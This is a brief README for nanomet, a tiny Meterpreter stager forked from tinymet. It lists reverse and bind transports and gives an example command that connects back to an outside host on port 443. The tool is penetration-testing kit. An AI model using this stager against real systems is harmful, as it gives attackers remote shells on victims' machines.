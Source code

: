 nanomet
=======

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost
nanomet is tinymet modified to support compiling using mingw compilers.

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http
* 2: reverse_https
* 3: bind_tcp

Example
========

nanomet.exe 2 host.com 443

will use reverse_https and connect to host.com:443


